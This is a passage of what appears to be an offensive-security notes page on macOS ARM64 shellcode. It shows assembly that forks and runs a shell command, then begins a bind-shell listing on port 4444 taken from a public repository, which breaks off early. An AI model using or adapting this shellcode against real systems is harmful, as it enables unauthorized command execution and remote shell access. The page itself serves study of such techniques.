 ```
_main:
    ; Prepare the arguments for the fork syscall
    mov x16, #2            ; Load the syscall number for fork (2) into x8
    svc 0                  ; Make the syscall
    cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
    beq _loop              ; If not child process, loop

    ; Prepare the arguments for the execve syscall

    sub sp, sp, #64        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, sh_path
    str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
    adr x0, sh_c_option    ; Get the address of "-c"
    str x0, [x1, #8]       ; Store the address of "-c" as the second argument
    adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
    str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
    str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

    adr x0, sh_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall

_exit:
    mov x16, #1            ; Load the syscall number for exit (1) into x8
    mov x0, #0             ; Set exit status code to 0
    svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```
```
#### Bind shell

Bind shell from [[https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s|https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s]] in **port 4444**

```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
    // s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
    mov  x16, #97
    lsr  x1, x16, #6
    lsl  x0, x1, #1
    mov  x2, xzr
    svc  #0x1337

    // save s
    mvn  x3, x0

call_bind:
    /*
```